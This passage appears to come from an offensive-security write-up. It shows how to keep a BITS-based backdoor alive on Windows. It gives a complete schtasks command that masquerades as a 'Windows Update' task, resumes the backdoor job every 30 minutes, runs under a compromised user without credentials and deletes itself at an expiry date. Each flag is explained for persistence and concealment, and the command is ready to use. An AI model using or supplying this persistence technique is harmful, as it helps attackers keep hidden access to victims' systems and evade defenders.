

To solve the problem of BITS entering an error state, we use schtasks to resume our job at regular intervals. This will allow our backdoor to persist regardless of the state of our C&C, or presence of a trigger-file.
Crafting our Scheduled Task
schtasks /CREATE /TN "Windows Update" /TR "%WINDIR%\system32\sbitsadmin.exe /resume \"Windows Update\"" /SC minute /MO 30 /ED 03/14/2014 /ET 09:00 /Z /IT /RU %USERNAME%
Important Settings:
# The /resume flag will restart our BITS job if it has entered an error state
/TR %WINDIR%\system32\sbitsadmin.exe /resume...
# Utilizing a "schedule modifier" we create a task whose actions will trigger every X minutes.
/SC minute /MO <X>
# Using an end date and end time we set an expiration date for our task
/ED <DATE> /ET <TIME>
# Using the /Z flag causes our task to self delete at the specified end date and time
/Z
# Run as %USERNAME% executes our task under a compromised user without need for credentials
/IT /RU %USERNAME%
Our Newly Created Task
This task will automatically delete itself once it has reached the end date and time.
